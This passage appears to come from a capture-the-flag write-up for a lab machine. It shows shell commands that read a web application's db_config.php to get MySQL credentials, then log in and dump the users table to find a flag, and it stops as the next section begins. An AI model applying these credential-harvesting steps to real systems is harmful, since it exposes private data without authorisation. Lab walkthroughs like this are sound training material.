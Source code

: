 
<br>

## 2.5: FLAG-bernadette<br>
> This flag is very similar to the previous one. We goto the /private/ directory of the apache and get the db-config.php which will give us mysql credentials.

```shell
cd /var/www/html/private/
cat db_config.php
```

![bigpharm](img/bigpharm.PNG)
```shell
mysql -u bigpharmacorp -p
Enter password: weareevil
mysql> use bigpharmacorp;
mysql> select * from users;
```

> Here we have the flag
![FLAG-bernadette](img/fbernadette.PNG)

---

<br>

## 2.6: FLAG-amy<br>
> Lets go to amy's directory and see what we have there
